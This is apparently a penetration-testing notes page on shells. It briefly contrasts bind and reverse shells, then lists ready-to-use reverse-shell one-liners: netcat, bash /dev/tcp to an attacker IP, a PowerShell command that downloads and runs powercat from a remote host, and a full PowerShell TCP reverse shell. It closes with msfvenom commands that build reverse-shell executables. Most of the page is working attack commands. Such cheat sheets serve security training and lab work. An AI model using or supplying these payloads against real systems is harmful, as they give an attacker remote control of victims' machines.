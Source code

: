 # Shells

This section is all about shells

## Bind shell vs reverse shell

### Bind shell

Basically, we are opening a port with our shell for other people to execute

- Client computer starts up a listening session with shell executing on that port
- Connector just connects to the listening port that has shell already running

### Reverse shell

Basically, we are sending our own shell over to the operator

- Operator listens on a port
- Client computer connects to the listening port on the operator with the client's own shell
- Operator now has control of clients shell

#### Netcat reverse shell

```sh
nc <listening_host> <listening_port> -e /bin/bash
```

#### TCP revsrse shell

```sh
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

#### Powercat reverse shell example

```sh
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

#### Powershell reverse shell

```sh
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Generating shell payloads

### Stageless payload (catchable with netcat)

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=80 -f exe > shell.exe
```

### Staged payloads (caught with meterpreter or other programs)

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=5555 -f exe > binary.exe
```
